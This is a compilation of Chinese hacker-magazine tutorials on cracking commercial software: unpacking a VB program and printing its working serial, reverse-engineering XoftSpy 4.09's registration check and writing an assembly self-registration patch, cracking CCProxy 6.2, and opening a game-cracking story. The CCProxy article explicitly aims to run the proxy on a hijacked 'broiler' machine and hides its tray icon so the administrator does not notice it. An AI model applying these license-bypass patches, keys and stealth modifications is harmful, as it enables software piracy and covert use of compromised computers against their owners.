现在有很多的程序都是用VB编写的,我就遇到过一款这样的软件。功能不错,挺搞笑的,很适合给MM发笑话用。可惜要注册,于是偶决定破了它!
首先看看壳的情况,用Peid侦壳,如图1所示。


真不是等闲之辈,居然用的是猛壳幻影。再用LoadPE查看区段,如图2所示。


第一个区段名是: p e c 1 ,而这个“pec1”正是PECompact加壳后的区段名! 那么这个程序是用了幻影加上PECompact的两层壳? 心中一窃喜,如果真的是这样的话,则作者走入了加多层的壳的误区。把压缩壳用在最里面是最大的加壳失误,这样使得手工脱壳变得非常简单,甚至等同于PECompact脱壳。究竟是不是这样加的壳呢? 还是用Ollydbg来证明吧。

> 如果你想跟随本文进行尝试的话,请注意操作系统的环境,下面演示的方法不适合Windows 9x下进行,幻影依旧是比较强悍的壳,一不小心就会让你的电脑自动重启。

首先设置我们的Ollydbg忽略所有的异常选项。用IsDebug V1.4插件隐藏Ollydbg的调试器标志。可以开始脱壳了,用Ollydbg载入应用程序njzw20.exe,如图3所示。
不管那么多先下硬件断点 HE VirtualAlloc,按Shift+F9 运行,中断下来,如图4所示。


OK,我们现在取消这个硬件断点 HD VirtualAlloc,Alt+M打开内存查看窗口。我们可以看见00400000是njzw20.exe的PE header,00401000是CODE区段。在0040100这行上点右键,选择“设置内存访问断点”的命令,如图5所示。
按Shift+F9运行,中断在内存断点处,如图6所示。
我们此时已经走过了外面的幻影壳! 内存的断点已经起过作用,现在不需要了。点右键选择“清除内存断点”,免得妨碍我们下面的工作,如图7所示。
按F8继续,由00441C56的retn 1C返回到00441282

www.hacker.com.cn
2006精华奉献本 下册

# # SECRET OF CRACK

} 栏目编辑 \ icefire \ icefire@hacker.com.cn


处,如图8 所示。
我们需要按F8单步跟踪下去吗? 当然不是,按Ctrl+S在当前位置下面搜索命令序列,如图9所示。
找到在0044154E处,按F2下断点,按F9运行,中断,如图10所示。
这段代码是PECompact V2.0之前的版本壳的入口方式! 确

+   - 实行
- 查看反汇编 Enter
- 在CPU中转存
- 转存
- 搜索 Ctrl+B
- 设置访问中断 F2
- 设置内存访问断点(A)
- 设置内存写入断点(W)
- 清除内存断点(M)
- 设置权限
- 复制到剪贴板
- 排序
- 显示选项


```
popad
popfd
push eax
```

提示: RA 和 RB 匹配 R32, "ANY n" 匹配 0..n 命令。
厂 整个块(E) [查找] [取消]


定最里面所加的壳就是PECompact壳。我们很轻松就来到了这个程序的OPE处,可以明显的看出这个程序是用VB语言编写的。还等什么? 快快拿出LordPE“Correct ImageSize”后完全Dump Full这个进程。
接着该修复输入表了,运行ImportREC V1.6,选择这个进程。修改OEP为00001A08,点“自动搜索IAT”,再点“获取输入表”,由于PECompact壳的缘故,所有的函数当然都是有效的。如果单独用幻影加壳的话,则需要手动修改流程避开输入表加密,比较麻烦。得到Dumped_.exe,正常运行,OK,脱壳成功了!


www.hacker.com.cn
2006 精华奉献本 下册 79

## SECRET OF CRACK

}栏目编辑} icefire} icefire @ hacker.com.cn

这个程序有些讨厌,注册失败后没有提示而是直接退出,就算是在注册窗口点取消也是一样的自动退出,看来作者是不想让我们一次次地猜测。
对于VB程序的破解来说有几个函数是经常被用到的,如 __vbaStrCmp、__vbaVarTstEq、rtcMidCharVar等,但是对这个程序没有用,关键断点的寻找要一遍一遍地尝试。
用Ollydbg载入Dumped_.exe,按F9运行后试下中断:BP rtclnputBox,然后点击“帮助→注册”立即中断在msvbvm60.DLL里面,看看堆栈。下断:BP 0042F950,然后按F9运行,注册窗口弹出,输入假的

注册号“12121221212” ,“确定”之后立即中断在0042F950处。
我们为什么不下BP __vbaVarMove断点?试试就知道了,程序会不停的中断在__vbaVarMove处,所以不能用这个断点。我们还可以发现__vbaStrVarVal和rtcR8ValFromBstr这两个断点可以使用。经过分析,最后得出注册码:
序列号: C18141444137 - 8612454
注册码: 39206781
OK,破解完成! 输入注册码确定后提示已注册。破解加脱壳累死我了,文章纰漏之处敬请高手纠正。

IceFire: 注册软件是作者保护自己的劳动成果的重要环节。一般情况下,软件未注册时会有一些限制。通过注册验证,软件会自行解除相关限制。向作者注册也是每个使用该软件的用户义务。但或这或那的原因,注册往往不容易办到,所以网上也就有相关软件的注册机或者破解方法。软件破解版的制作方法有千般模样,今天我们跟laoxuetong来看看,当我们没有正确的注册码,是否也能正确注册。软件注册验证通常有两种方法,行话是明码比较和非明码比较。对于明码比较的软件,可采用修改链接地址的方法进行欺骗。而非明码比较的软件一般比较麻烦,故大多数人采用爆破方法处理(并未注册)。这里,将不采用爆破方法,以下我们以《XoftSpy 4.09》为例说明处理方法,让非明码比较的软件按正确的注册码注册。
适合读者:软件逆向工程爱好者
前置知识:汇编语言,OllyDbg使用经验,PE文件知识

### 让软件自己实现

文/图 laoxuetong

《XoftSpy》可以监测和移除电脑中不同类型的监视软件。监视软件是普通反病毒软件无法对付的新的威胁。如果你频繁的收到弹出窗口的骚扰,你的IE安装了新的工具条,浏览器经常崩溃,或者被无端修改,那么你八成中了监视软件的“毒”。《Xoft Spy》功能强大,用来扫描和移除间谍软件、广告程序、Malware、Spybot、键盘记录软件、讨厌的工具栏、浏览器拦截程序、Spyware Pop-ups等有害程序的系统安全软件,支持在线升级。

### XoftSpy 4.09 注册算法分析

主程序:

```
0041560A MOV EAX,DWORD PTR SS:[EBP]
; 指向名称
0041560D MOV EAX,DWORD PTR DS:[EAX-8]
; 名称长度
00415610 TEST EAX,EAX
00415612 JE XoftSpy.004157D2
00415618 MOV ECX,DWORD PTR DS:[EDI]
; 指向注册码
0041561A MOV EAX,DWORD PTR DS:[ECX-8]
; 注册码长度
0041561D TEST EAX,EAX
0041561F JE XoftSpy.004157D2
00415625 PUSH EBP
00415626 LEA ECX,DWORD PTR SS:[ESP+18]
0041562A CALL XoftSpy.00448E70
```

```
0041562F LEA ECX,DWORD PTR SS:[ESP+14]
00415633 MOV DWORD PTR SS:[ESP+28],0
0041563B CALL XoftSpy.004495C3
; 名称字符转化成大写
.........
00415653 CALL XoftSpy.004495C3
; 注册码字符转化成大写
00415658 PUSH ECX ; 保存转化结果
.........
00415672 CALL XoftSpy.00448E70
00415677 MOV ECX,ESI
00415679 MOV BYTE PTR SS:[ESP+30],1 ; |
0041567E CALL XoftSpy.004158B0 ; |
; \名称为小写字符时的注册验证
00415683 TEST AL,AL
00415685 JNZ SHORT XoftSpy.00415703
; 若非0,则跳向注册成功提示处
.........
004156A9 CALL XoftSpy.00448E70
004156AE MOV ECX,ESI
004156B0 MOV BYTE PTR SS:[ESP+30],1 ; |
004156B5 CALL XoftSpy.004158B0 ; |
; \名称为大写字符时的注册验证
004156BA TEST AL,AL
004156BC JNZ SHORT XoftSpy.00415703
```

注册失败提示:

```
004156BE PUSH 0
004156C0 PUSH XoftSpy.0046A3D4 ; ASCII "XoftSpy"
```

www.hacker.com.cn
2006 精华奉献本 下册

# # SECRET OF CRACK

}栏目编辑 )icefire )icefire @ hacker.com.cn

```assembly
004156C5   PUSH XoftSpy.0046B6E4
"Invalid code."
............
注册失败处理
............
```

注册成功提示

```assembly
00415703   PUSH EDI
00415704   PUSH EBP
00415705   CALL XoftSpy.0042B150
0041570A   ADD ESP,8
0041570D   MOV ECX,ESI
0041570F   PUSH 0
00415711   PUSH XoftSpy.0046A3D4          ; ASCII "XoftSpy"
00415716   PUSH XoftSpy.0046B6B8          ; ASCII "Congratulations!
successfully registered"
0041571B   CALL XoftSpy.00447372
注册成功处理
............
```

# # 注册码校验算法

```assembly
00415907   MOV EDX,DWORD PTR SS:[ESP+3C]
；指向注册码
0041590B   CMP DWORD PTR DS:[EDX+8],15
；长度为21位吗？
0041590F   JL XoftSpy.00415B15
00415915   LEA EAX,DWORD PTR SS:[ESP+1C]
00415919   PUSH 0B
0041591B   PUSH EAX
0041591C   LEA ECX,DWORD PTR SS:[ESP+44]
00415920   CALL XoftSpy.00442DEE
；从“-”处分离
00415925   MOV ECX,DWORD PTR SS:[ESP+1C]
；指向分离结果
```

分离的结果形如 xxxxxxxxxx-。

```assembly
00415929   XOR ESI,ESI
0041592B   XOR EDX,EDX
0041592D   MOV BYTE PTR SS:[ESP+30],2
00415932   MOV DWORD PTR SS:[ESP+20],ESI
00415936   XOR EAX,EAX
00415938   /MOVSX EDI,BYTE PTR DS:[EAX+ECX]
；取出一位
0041593C   |ADD EDX,EDI
；累加
0041593E   |INC EAX
；指向下一位——前11位累加
0041593F   |CMP EAX,0A
；11位了吗？
00415942   \JL SHORT XoftSpy.00415938
00415944   MOV DWORD PTR SS:[ESP+24],EDX
；保存累计和
```

前 11 位字符的 ASCII 码值累加,设结果为 A1。

```assembly
00415948   MOV EDX,DWORD PTR SS:[ESP+38]
；指向名称
0041594C   XOR EAX,EAX
0041594E   MOV ECX,DWORD PTR DS:[EDX-8]
；名称长度
00415951   TEST ECX,ECX
00415953   JLE SHORT XoftSpy.00415964
00415955   /MOVSX EDI,BYTE PTR DS:[EAX+EDX]
；读取名称一位
```

```assembly
00415959   |ADD ESI,EDI
；累加
0041595B   |INC EAX
；指向下一位
0041595C   |CMP EAX,ECX
0041595E   \JL SHORT XoftSpy.00415955
；未完继续
00415960   MOV DWORD PTR SS:[ESP+20],ESI
；保存名称累计和
```

名称字符 ASCII 码值累加,设结果为 A2。

```assembly
00415964   MOV ECX,DWORD PTR SS:[ESP+3C]
；指向注册码
00415968   PUSH EBP
00415969   LEA EDX,DWORD PTR DS:[ESP+10]
0041596D   MOV EAX,DWORD PTR DS:[ECX-8]
00415970   LEA ECX,DWORD PTR SS:[ESP+40]
00415974   ADD EAX,-0C
00415977   PUSH EAX
00415978   PUSH EDX
00415979   CALL XoftSpy.00442D72
；分离后 9 位
```

设分离的结果为 abcdefghi。

```assembly
0041597E   LEA EAX,DWORD PTR SS:[ESP+1C]
00415982   PUSH 3
00415984   PUSH EAX
00415985   LEA ECX,DWORD PTR SS:[ESP+18]
00415989   MOV BYTE PTR SS:[ESP+3C],3
0041598E   CALL XoftSpy.00442DBE
；切割后 9 位的前三位
00415993   MOV ECX,DWORD PTR SS:[ESP+10]
；指向 1-3 位
00415997   MOV BYTE PTR SS:[ESP+34],4
0041599C   PUSH ECX
0041599D   CALL XoftSpy.0043637F
；转化成整数
004159A2   CDQ
004159A3   ADD ESP,4
004159A6   SUB EAX,EDX
004159A8   LEA EDX,DWORD PTR SS:[ESP+18]
004159AC   MOV ESI,EAX
；转移结果
004159AE   PUSH 3
004159BE   PUSH 3
004159B2   PUSH EDX
004159B3   LEA ECX,DWORD PTR SS:[ESP+1C]
004159B7   SAR ESI,1
；结果 /2
```

abc -> 整数 / 2, 设结果为 B1。

```assembly
004159B9   CALL XoftSpy.00442CDC
；切割中三位
004159BE   MOV EAX,DWORD PTR SS:[ESP+18]
；指向 4-6 位
004159C2   MOV BYTE PTR SS:[ESP+34],5
004159C7   PUSH EAX
004159C8   CALL XoftSpy.0043637F
；转化成整数
004159CD   CDQ
004159CE   ADD ESP,4
004159D1   AND EDX,3
004159D4   ADD EAX,EDX
004159D6   LEA ECX,DWORD PTR SS:[ESP+14]
004159DA   PUSH 3
004159DC   MOV EDI,EAX
；转移
004159DE   PUSH ECX
004159DF   LEA ECX,DWORD PTR SS:[ESP+18]
004159E3   SAR EDI,2
；结果 /4
```

def -> 整数 / 4 , 设结果为 B2。

文章来源于网络，版权归原作者所有，www.hacker.com.cn
2008 精华奉献本 下册


## SECRET OF CRACK
栏目编辑）icefire）icefire@hacker.com.cn

```
004159B6 CALL XoftSpy.00442D72      ; 切割后三位
004159EB MOV EDX,DWORD PTR SS:[ESP+14]
                ; 指向7-9位
004159EF PUSH EDX
004159F0 CALL XoftSpy.0043637F        ; 转化成整数
004159F5 MOV ECX,EAX                   ; 转移
004159F7 MOV EAX,55555556
                ; 赋值 0x55555556=1431655766
004159FC IMUL ECX                    ; 0x55555556* 后三位的结果
004159FE MOV EAX,EDX                  ; 转移进位
00415A00 ADD ESP,4
00415A03 SHR EAX,1F                   ; /2^31
00415A06 ADD EDX,EAX                  ; 相加
```

ghi -> 整数，整数*0x55555556，取其进位，设结果为B3。

```
00415A08 MOV EAX,DWORD PTR SS:[ESP+3C]
                ; 指向名称
00415A0C MOV EBX,EDX                    ; 转移结果
00415A0E MOVSX ECX,BYTE PTR DS:[EAX]
                ; 取出名称一位
00415A11 MOV EBP,DWORD PTR DS:[EAX-8]
                ; 长度
00415A14 CMP ESI,ECX                    ; 名称第一位于(1-3)/2相等吗？
```

名称第一位必须等于B1。

```
00415A16 MOVSX EDX,BYTE PTR DS:[EAX+1]
            ; 取出名称第二位
00415A1A MOVSX EAX,BYTE PTR DS:[EAX+EBP-1]
            ; 取出名称最后一位
00415A1F POP EBP
00415A20 JNZ XoftSpy.00415ACF
00415A26 CMP EDI,EDX                    ; 名称第二位与(4-6)/4相等吗？
```

名称第二位必须等于B2。

```
00415A28 JNZ XoftSpy.00415ACF
00415A2E CMP EBX,EAX                    ; 名称最后一位与进位相等吗？
```

名称最后一位必须等于B3。

```
00415A30 JNZ XoftSpy.00415ACF
00415A36 MOV EAX,DWORD PTR SS:[ESP+20]
            ; 取名称字符和A2
00415A3A MOV ECX,0A
00415A3F CDQ
00415A40 IDIV ECX                    ; 结果 mod 10
00415A42 MOV EAX,DWORD PTR SS:[ESP+24]
            ; 取注册码字符和A1
00415A46 MOV ESI,0A
00415A4B MOV ECX,EDX                  ; 转移余数
00415A4D CDQ
00415A4E IDIV ESI                    ; mod 10
00415A50 CMP EDX,ECX                  ; 两余数相等吗？
00415A52 JNZ SHORT XoftSpy.00415ACF
            ; 不等则跳走
```

注册成功处理

```
............
00415AB9 POP EDI
00415ABA POP ESI
00415ABB MOV AL,1                     ; 置注册成功标志
00415ABD POP EBX
00415ABE MOV ECX,DWORD PTR SS:[ESP+1C]
00415AC2 MOV DWORD PTR FS:[0],ECX
00415AC9 ADD ESP,28
00415ACC RETN 8
............
```

注册不成功处理

```
............
00415B38 POP EDI
00415B39 POP ESI
00415B3A XOR AL,AL                    ; 注册不成功标志
00415B3C POP EBX
00415B3D MOV DWORD PTR FS:[0],ECX
00415B44 ADD ESP,28
00415B47 RETN 8
```

验证方法小结。
1. 注册码共需21位，被“-”分割成两段。
2. 第一段形如xxxxxxxxxx-，其每一位的ASCII码值的和的个位必须与名称ASCII码值的和的个位相等。
3. 第十二位可以是任意字符。
4. 第十三至十五位由名称第一位计算而来，第十六至十八位由名称的末位计算得到，第十九至二十一位作整数乘以0x55555556的进位应该与名称最后一位的ASCII码值相等。

#### 补丁代码编写

从以上分析可以看到，注册验证采用的是整数比较，非明码形式，而且还是分段进行的。那么要能正确地注册，必须经上述验证过程重组，使之产生正确的注册码。这部分已经不可能在源程序中进行，必须添加新的代码段。在OllyDbg的汇编代码区向下拉，找出最后的剩余空间，选择一个合适的偏移地址作为添加代码段空间，然后修改跳转部分：

```
0041561D TEST EAX,EAX
0041561F JE XoftSpy.004157D2
```

为：

```
0041561D JMP XoftSpy_..00458600     ; jmp 458600
00415622 NOP
00415623 NOP
00415624 NOP
00415625 PUSH EBP
```

增加的完整代码部分：

```
00458600 PUSHAD                      ; 保护现场
00458601 MOV EDX,DWORD PTR SS:[EBP]
00458604 NOP
00458605 XOR EAX,EAX
00458607 XOR ESI,ESI
```

www.hacker.com.cn 2006 精华本 下册

#### 由名称计算注册码前11位

```
00458609 MOV ECX,DWORD PTR DS:[EDX-8]
0045860C MOVSX EDI,BYTE PTR DS:[EAX+EDX]
00458610 ADD ESI,EDI
00458612 INC EAX
00458613 CMP EAX,ECX
00458615 JL SHORT XoffSpy_0045860C
00458617 MOV EAX,ESI
00458619 MOV ECX,0A
0045861E CDQ
0045861F IDIV ECX
```

设结果为y。

根据尾数重新设置注册码前11位原理。

设注册码前11位形如 x00000000-，其后10位的累积和个位为7。故x的个位+7等于y，x的个位等于y-7；但y-7可能是个负数，这时只需+10给予修正即可。

将x设置在大写字符里，初值为0×46（十进制70，大写字符F），则x=0×46+y-7+A=0×49+y  均能满足要求。

所以添加代码：

```
00458621 ADD EDX,49
00458624 MOV EAX,EDX
00458626 MOV EDX,DWORD PTR SS:[EBP-8]
00458629 MOV BYTE PTR DS:[EDX],AL
0045862B MOV BYTE PTR DS:[EDX+1],30
0045862F MOV DWORD PTR SS:[EDX+2],30303030
00458637 MOV DWORD PTR SS:[EDX+6],30303030
0045863F MOV WORD PTR SS:[EDX+A],302D
```

后9位注册码计算。

由名称第一个字符计算三位注册码

```
00458646 MOV EDX,DWORD PTR SS:[EBP]
00458649 MOVSX EAX,BYTE PTR DS:[EDX]
0045864C SHL EAX,1
0045864E MOV ECX,0A
00458653 CDQ
00458654 IDIV ECX
00458656 ADD EDX,30
00458659 MOV EAX,EDX
0045865B MOV EDX,DWORD PTR SS:[EBP-8]
0045865E MOV BYTE PTR DS:[EDX+E],AL
00458661 MOV EDX,DWORD PTR SS:[EBP]
00458664 MOVSX EAX,BYTE PTR DS:[EDX]
00458667 SHL EAX,1
00458669 MOV ECX,0A
0045866E CDQ
0045866F IDIV ECX
00458671 CDQ
00458672 IDIV ECX
00458674 ADD EDX,30
00458677 MOV EAX,EDX
00458679 MOV EDX,DWORD PTR SS:[EBP-8]
0045867C MOV BYTE PTR DS:[EDX+D],AL
0045867F MOV EDX,DWORD PTR SS:[EBP]
00458682 MOVSX EAX,BYTE PTR DS:[EDX]
00458685 SHL EAX,1
00458687 MOV ECX,0A
0045868C CDQ
0045868D IDIV ECX
0045868F CDQ
00458690 IDIV ECX
```

```
00458692 ADD EAX,30
00458695 MOV EDX,DWORD PTR SS:[EBP-8]
00458698 MOV BYTE PTR DS:[EDX+C],AL
```

#### 由名称第二个字符计算三位注册码

```
0045869B MOV EDX,DWORD PTR SS:[EBP]
0045869E MOVSX EAX,BYTE PTR DS:[EDX+1]
004586A2 SHL EAX,2
004586A5 MOV ECX,0A
004586AA CDQ
004586AB IDIV ECX
004586AD ADD EDX,30
004586B0 MOV ESI,EAX
004586B2 MOV EAX,EDX
004586B4 MOV EDX,DWORD PTR SS:[EBP-8]
004586B7 MOV BYTE PTR DS:[EDX+11],AL
004586BA MOV EAX,ESI
004586BC MOV ECX,0A
004586C1 CDQ
004586C2 IDIV ECX
004586C4 ADD EDX,30
004586C7 MOV ESI,EAX
004586C9 MOV EAX,EDX
004586CB MOV EDX,DWORD PTR SS:[EBP-8]
004586CE MOV BYTE PTR DS:[EDX+10],AL
004586D1 MOV EAX,ESI
004586D3 MOV ECX,0A
004586D8 CDQ
004586D9 IDIV ECX
004586DB ADD EDX,30
004586DE MOV EAX,EDX
004586E0 MOV EDX,DWORD PTR SS:[EBP-8]
004586E3 MOV BYTE PTR DS:[EDX+F],AL
```

因为进位问题不能直接计算得到，故采用穷举方式：

```
004586E6 MOV ECX,0
004586EB XOR EDX,EDX
004586ED MOV EDX,DWORD PTR SS:[EBP]
004586F0 MOV EBX,DWORD PTR SS:[EDX-8]
004586F4 MOVSX EBX,BYTE PTR DS:[EDX+EBX-1]
004586F9 INC ECX
004586FA MOV EAX,55555556
004586FF IMUL ECX
00458701 NOP
00458702 CMP EDX,EBX
00458704 JNZ SHORT XoffSpy_004586F9
```

#### 计算最后三位注册码

```
00458706 MOV EAX,ECX
00458708 MOV ECX,0A
0045870D CDQ
0045870E IDIV ECX
00458710 MOV ESI,EAX
00458712 ADD EDX,30
00458715 MOV EAX,EDX
00458717 MOV EDX,DWORD PTR SS:[EBP-8]
0045871A MOV BYTE PTR DS:[EDX+14],AL
0045871D MOV EAX,ESI
0045871F MOV ECX,0A
00458724 CDQ
00458725 IDIV ECX
```

```asm
00458727  ADD EDX,30
0045872A  MOV ESI,EAX
0045872C  MOV EAX,EDX
0045872E  MOV EDX,DWORD PTR SS:[EBP-8]
00458731  MOV BYTE PTR DS:[EDX+13],AL
00458734  MOV EAX,ESI
00458736  ADD EAX,30
00458739  MOV BYTE PTR DS:[EDX+12],AL
0045873C  MOV BYTE PTR DS:[EDX+15],0
;  截断多余数据
00458740  MOV BYTE PTR DS:[EDX-81,15
;  改写注册码长度
00458744  POPAD
;  恢复现场
00458745  JMP XoftSpy_00415625
;  返回
```

将上述代码直接用OllyDbg输入到源代码区的最后，修改好跳转，起名XoftSpy_patch.exe保存。运行软件，输入自己的大名，随意输入注册码，点击注册按钮，看看是什么效果，如图1所示。
呵呵，恭喜！已成功注册。就这么简单，你可以分发给你朋友测试了。


#### 友情提示

要作好自注册补丁，一个重要的问题是，我计算的注册码放在哪里？懂得PE文件知识的人都知道，我们输入的注册码都会赋值给变量。而变量有静态和动态之分。当你反复调试跟踪时，若保存注册信息的偏移地址不变，则使用的是静态变量。这时保存注册码，可以使用绝对地址。如果每次地址发生变化，则使用的是动态变量。这时，要保存你计算的注册码，必须使用间接寻址方式，否则不能达到目的，亦或出现程序崩溃现象，切记！（本文例子使用的是静态变量，但我用的是间址方式）。
就说到这里，咱们下次再见。

icefire：前些天刚弄了个肉鸡，想做个代理，所以就找了个CCProxy 6.2自己试试，这应该是最新版的代理程序吧？用起来感觉非常不错。如果放在肉鸡上跑……呵，感觉肯定更好。可惜未注册的时候只允许三个用户使用，没办法，只好让发扬一下共享精神，Crack it！
适合读者：逆向爱好者
前置知识：汇编语言、软件使用

#### 破解实战
### CCProxy 6.2

文/图 sense

CCProxy 6.2是个十分好用的代理软件，可是没有注册的版本只允许三个用户使用，所以我想办法将它破解了。这里破解不是我们的最终目的，程序启动后会在系统托盘上留下图标，我们还要去掉它，让它更好的在肉鸡上跑。
破解工具：
Olllydbg 1.10b（fly修改版）
W32Dasm v10.0 汉化增强版
PEiD V0.92
keymake1.73

#### 初探

用PEiD V0.92查看一下目标是否加壳——此软件居然不加壳！运行CCProxy主程序，看看它是个啥模样，咋这么牛呢？来给个正脸，如图1所示，小样长得还挺不错，注册码错误会给出错误提示。

#### 静态分析可利用信息

既然我们输错注册码程序会弹出对话框来，那我们就可以先利用它的这个错误信息去找程序比较部分。
用W32Dasm对目标文件进行静态分析。在工具栏中点“串式字符参考”，找一找程序给我们的错误信息，没有？很正常！这个软件比较牛了，才学了英语，我们在CCProxy主程序的“设置->高级->其它”中可以更改软件的提示内容。改过后再看看软件的错误提示（如图


2 所示），是不是在有和"串式字符参考"一样的错误信息了，如图3所示。双击错误字符串，我们会看到程序的汇编代码，如图4中，代码0040e33e为程序的关键跳，跳走了我们就失败，所以暴破只要把0040e33e一条代码NOP掉就可以了。用WinHex载入CCProxy主程序，NOP掉程序0040e33e处代码，重新运行软件注册，成功！但是重启软件后注册并没有生效，还是未注册版。可能是程序在起动时对注册码进行了效验。在程序的安装目录里我们可以找到一个CCProxy.ini文件，这就是程序的配置文件，我们的注册码就放在这里，一会我们动态分析时可能会用到。


再看代码上边有好几个CALL语句，可以推断上边的CALL语句为程序计算注册码部分。我们可以动态跟踪程序的注册码。OK！第二步我们找到两个破解软件的思路，继续！

#### 动态跟踪注册码

用Ollydbg加载CCProxy主程序，等程序完全加载完后Ctrl+G到程序关键跳0040e33e。向上找到这段代码的开始，F2下断，运行后程序立刻断下，取消断点。先大概F8单步运行到0040e33e，程序通过测试eax寄存器决定的程序转向，我们在上边不远处可以找到程序最后一次对eax寄存器的赋值语句0040e333。如果eax不为零那么程序就不跳转，我们就注册成功。

现在在这段代码中仔细单步运行，程序主要是对注册名进行了MD5加密运算，由于程序比较复杂不是我等小辈可以看清的，所以不打算找程序的加密算法了（我可不是打退堂鼓，注册码咱还是要的）。

程序动行到0040e333时，也就是最后一次对注册码进行赋值的语句。在Ollydbg的信息框里我们可以看到ds:[004a6cbc]=00000000（要赋给eax的源数据）、eax=00000001（eax寄存器源内容）。当eax不为零时程序注册成功！右键单击信息框里的ds:[004a6cbc]=00000000一段代码，在弹出的快捷菜单中点"在转存中跟随地址"。在左下角的数据框中我们往下拖动可以看到有一大串的数字（如图5所示），不用说了，一定是注册码。关闭调试器，运行CCProxy主程序，输入找到的数据，注册成功！


最后做一个注册机，善始善终嘛！打开Keymake按图中进行设置就可以了，如图6所示。


#### 完善CCProxy

这个软件真好用，不跑在肉鸡上多可惜呀，想想各种代理都有的感觉，爽！费话少说，改善软件。

程序主要是在系统托盘上加的图标让我们的肉鸡不可以接受，那我们就去掉它的这个图标不就行了！开始我想的是用"资源黑客"把CCProxy的图标资源直接删了，后来想起以前改别的软件的时候试过，系统托盘会有一个空白的图标，虽然看不到程序的图标，那也太刺眼了吧，管理员的眼不是500度大近视！程序向系统托盘加入图标一定要调用SHELL32.Shell_NotifyIconA函数，先看看函数API原型！

| String Resource ID | String Content |
| ---- | ---- |
| String Resource ID=00119 | "Another instance of CCProxy has been run" |
| String Resource ID=00120 | "Invalid User/IP Address(es)!" |
| String Resource ID=00121 | "IP Address(es) of Dial-up..." |
| String Resource ID=00122 | "Are you sure to delete all the accounts?" |
| String Resource ID=00123 | "Permit All\nPermit Only\nForbid All" |
| String Resource ID=00124 | "Please restart program to validate the change." |
| String Resource ID=00125 | "Congratulations. You have registered successfully!" |
| String Resource ID=00126 | "Sorry. Registration failed!" |
| String Resource ID=00127 | "Web Server Can Only Support 3 Users!" |
| String Resource ID=00128 | "Warning: Web service startup failed!" |
| String Resource ID=00129 | "Mail Server Can Only Support 3 Users" |
| String Resource ID=00130 | "MAIL service startup failed!" |
| String Resource ID=00131 | "Mail Port Has Been Used!" |
| String Resource ID=00132 | "Please Restart Your Computer To Enable It!" |
| String Resource ID=00133 | "Mail Proxy startup failed!" |
| String Resource ID=00134 | "Unknown" |
| String Resource ID=00140 | "Proxy startup failed!" |
| String Resource ID=00141 | "Winsock startup failed!" |


```
0040E33E    85C0        test eax, eax
0040E340    5D          pop ebp
0040E341    74 3D       je 0040E3D7                 ; 可以暴破的关键跳转
0040E343    8D51 08     lea edx, dword ptr [ecx+8]
0040E346    B9 04000000 mov ecx, 4
0040E34B    E8 6D7D0000 call 004160BD
0040E350    68 7C040000 push 0000047C                 ; Possible Reference To String Resource ID=00125: "Congratulations. You have registered successfully!"
0040E355    E8 D6FFFFFF call 0040E330
0040E35A    59          pop ecx
0040E35B    50          push eax
```


```
Declare Function Shell_NotifyIcon Lib "shell32.dll" Alias "Shell_NotifyIconA" (ByVal dwMessage As Long, lpData As NOTIFYICONDATA) As Long
  Const NIF_ICON = &H2
  Const NIF_TIP = &H4
  Const NIM_ADD = &H0 '//这个就是向托盘加入图标的参数
  Const NIF_MESSAGE = &H1
  Const NIM_MODIFY = &H1
  Const NIM_DELETE = &H2 '//这个就是从托盘中删除图标的参数
```

Ollydbg重新载入CCProxy主程序，"搜索"->全部交互调用"，可以看到程序有5次调用SHELL32.Shell_NotifyIconA函数。从编程的角度来讲，一般的调用SHELL32.Shell_NotifyIconA函数，主要就是向系统托盘加入图标和从系统托盘删去图标，但你可以观察一下程度

文件说明：黑客X档案 http://www.hacker.com.cn 2006精华季版本 下册 293


### 在系统托盘上的图标

在系统托盘上的图标，它是一个动态的，编过程序的人都知道一般作这种动态的图标最简单的方法就是把两个图标来回的切换。了解了这一点，我们可以大胆地推断程序的第一次和最后一次调用SHELL32.Shell_NotifyIconA函数分别为系统初始化加载图标和程序结束删除图标。

程序第一次调用：

```assembly
0040C703    6A 00               push 0
0040C705    C1E9 02             shr ecx,2
0040C708    F3:A5               rep movs dword ptr es:[edi],dword ptr ds:[esi]
0040C70A    8BC8                mov ecx,eax
0040C70C    83E1 03             and ecx,3
0040C70F    F3:A4               rep movs byte ptr es:[edi],byte ptr ds:[esi]
0040C711    FF15 98434600       call dword ptr ds:[<&SHELL32.Shell_NotifyIconA>] ; SHELL32.Shell_NotifyIconA
```

程序第五次调用：

```assembly
0042F898    6A 02               push 2
0042F89A    C74424 20 0A0000> mov dword ptr ss:[esp+20],0A
0042F8A2    C74424 24 010000> mov dword ptr ss:[esp+24],1
0042F8AA    894C24 28         mov dword ptr ss:[esp+28],ecx
0042F8AE    FF15 98434600       call dword ptr ds:[<&SHELL32.Shell_NotifyIconA>] ; SHELL32.
```

```assembly
Shell_NotifyIconA
0042F8B4    6A 00               push 0
; /ExitCode = 0
0042F8B6    FF15 CC444600       call dword ptr ds:[<&USER32.PostQuitMessage>] ; \PostQuitMessage
0042F8BC    EB 71               jmp short 复件_CCP.0042F92F
```

两次的调用代码对比一下不难发觉，程序参数为Push 0时，SHELL32.Shell_NotifyIconA函数是加载图标程序参数为push 2时SHELL32.Shell_NotifyIconA函数是删除图标。由于我们不是来讲编程的，所以具体为什么Push 0/1会导致函数加载、删除图标我就不说了，免得浪费版面。好了思路已经很清楚了，我们只要把除最后一次调用结束程序以外的4次调用的参数Push 0全部改为Push 2就可以了！改完后F9运行程序，在系统托盘没有出现图标，改善成功。在肉鸡上使用时可以修改程序的配置文件CCProxy.ini：

```ini
HotKey=CTRL+ALT+C (程序隐藏后自动弹出的快捷键，可以自己调整！)
EnableHotKey=1 (程序是否启用自动弹出快捷键，默认为0)。
```

OK，收工！本文没有什么技术，如果用什么不对的地方请大家指正，我的QQ：29297727有什么问题可以和我一起探讨。


Icefire：前几天皮蛋瘦肉喜滋滋地告诉我他收到稿费了，还叫上他MM去饭店“扫荡”了一回，吃得天昏地暗、日月无光……没想到爱玩游戏的MM吃完就遇到了问题，在玩“祖玛”时卡了壳，不过好在最后她自己DIY解决了！也给我们发来了中间的过程，强就一个字啊！

适合读者：破解爱好者、游戏迷、程序员
前置知识：无

### 谁说女子不如男：祖玛通关记

文/图 冀颖


今天皮蛋瘦肉给我介绍了一款游戏——祖玛，我看他玩得挺开心就用我的U盘考回家了，可是皮蛋瘦肉那个坏小子没有给我说还要注册一个网络猪的用户才能玩(游戏是本地机游戏)，让我白白激动了那么长时间(从外面到家要2个小时啊，我恨死他了！)，我不能白白让自己激动那么长时间，于是我决定破解它！说干就干，开工！

